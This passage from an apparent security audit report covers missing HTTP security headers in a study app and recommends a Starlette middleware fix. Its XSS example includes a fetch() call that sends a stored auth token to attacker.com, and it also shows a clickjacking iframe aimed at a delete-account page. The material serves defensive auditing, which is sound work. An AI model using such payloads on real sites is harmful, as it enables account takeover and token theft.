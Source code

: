 **Priority**: FIX BEFORE PRODUCTION

---

#### 10. Missing Security Headers

**OWASP**: A05:2021 – Security Misconfiguration
**Location**: `TECH_SPEC.md` line 1267
**Risk Level**: MEDIUM - XSS, clickjacking vulnerabilities

**Missing Headers**:
- `Content-Security-Policy` - Not implemented
- `X-Content-Type-Options` - Not mentioned
- `X-Frame-Options` - Not mentioned
- `Strict-Transport-Security` - Not mentioned
- `Permissions-Policy` - Not mentioned

**Vulnerabilities Without Security Headers**:

**A. XSS Attacks (No CSP)**:
```html
<!-- Attacker injects script via quiz explanation -->
<script>
    // No CSP = script executes
    fetch('https://attacker.com/steal?token=' + localStorage.getItem('auth-storage'));
</script>
```

**B. Clickjacking (No X-Frame-Options)**:
```html
<!-- Attacker embeds StudyIn in iframe -->
<iframe src="https://studyin.app/settings/delete-account"></iframe>
<!-- Transparent overlay tricks user into clicking delete -->
```

**C. MIME Sniffing (No X-Content-Type-Options)**:
- Browser interprets text file as HTML
- Executes embedded scripts
- XSS vulnerability

**Recommendation**:
```python
from starlette.middleware.base import BaseHTTPMiddleware
from starlette.responses import Response

class SecurityHeadersMiddleware(BaseHTTPMiddleware):
    async def dispatch(self, request, call_next):
        response: Response = await call_next(request)

        # Content Security Policy
        # Strict policy to prevent XSS
        csp_directives = [
            "default-src 'self'",
            "script-src 'self' 'unsafe-inline' 'unsafe-eval'",  # ⚠️ Remove unsafe-* when possible
            "style-src 'self' 'unsafe-inline' https://fonts.googleapis.com",
            "font-src 'self' https://fonts.gstatic.com data:",
            "img-src 'self' data: https: blob:",
            "connect-src 'self' wss://api.studyin.app https://api.studyin.app",
            "frame-ancestors 'none'",  # Prevent clickjacking
            "base-uri 'self'",
            "form-action 'self'",
            "upgrade-insecure-requests"
        ]
        response.headers["Content-Security-Policy"] = "; ".join(csp_directives)

        # Prevent MIME sniffing
        response.headers["X-Content-Type-Options"] = "nosniff"

```